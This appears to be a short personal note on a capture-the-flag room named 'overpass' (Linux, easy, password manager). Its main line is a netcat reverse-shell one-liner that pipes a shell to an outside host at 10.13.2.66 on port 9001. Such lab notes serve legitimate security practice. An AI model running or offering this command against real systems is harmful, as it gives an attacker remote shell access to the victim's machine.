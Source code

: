 ##overpass
linux, easy
password manager
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.2.66 9001 >/tmp/f
